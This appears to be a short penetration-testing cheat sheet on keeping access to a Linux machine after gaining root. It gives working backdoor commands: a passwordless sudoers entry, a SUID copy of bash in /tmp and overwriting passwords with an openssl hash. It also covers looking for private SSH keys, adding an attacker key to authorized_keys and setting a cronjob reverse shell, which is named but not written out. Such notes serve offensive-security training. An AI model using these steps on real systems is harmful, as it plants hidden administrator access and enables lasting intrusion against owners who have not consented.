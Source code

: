 # persistence

## Root

- Once obtained root, create administrative backdoors using

```shell
# give sudo access
echo "username ALL=NOPASSWD:ALL" >> /etc/sudoers
```

```shell
# give SUID set bash executable
cp /bin/bash /tmp/bash; chmod +s /tmp/bash
```

```shell
# overwrite passwords
openssl passwd root
```

## SSH

- Check for the existence of a private key in `~/.ssh/id_rsa`.

- Generate your own SSH key using this [tutorial](https://docs.github.com/en/authentication/connecting-to-github-with-ssh/generating-a-new-ssh-key-and-adding-it-to-the-ssh-agent?platform=linux)

```shell
ssh-keygen -t ed25519 -C "your_email@example.com"
```

- Upload public key of SSH key pair to `authorized_keys_file`.

## Cronjob

- Set up cronjob that establishes reverse shell
 